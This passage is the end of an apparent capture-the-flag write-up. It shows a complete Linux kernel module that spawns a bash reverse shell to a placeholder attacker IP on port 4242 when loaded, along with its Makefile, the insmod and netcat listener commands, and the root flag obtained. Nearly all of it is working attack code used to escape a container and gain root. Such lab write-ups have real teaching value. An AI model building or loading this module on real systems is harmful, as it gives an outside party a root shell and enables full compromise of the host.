 ```c
# this program is from book.hacktricks.xyz, not from me !!

#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");

char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/<My_IP>/4242 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };

// call_usermodehelper function is used to create user mode processes from kernel space
static int __init reverse_shell_init(void) {
    return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}

static void __exit reverse_shell_exit(void) {
    printk(KERN_INFO "Exiting\
");
}

module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

```makefile
obj-m +=reverse-shell.o

all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

```bash
# on the docker
insmod reverse-shell.ko #Launch the reverse shell

# on my machine
nc -lnvp 4242
```

Finally I gained **root** access and got the last flag :

```text
# cat root.txt
c3d6f0773baa2828b70015af53b1bd61
```

### Thanks for reading :)
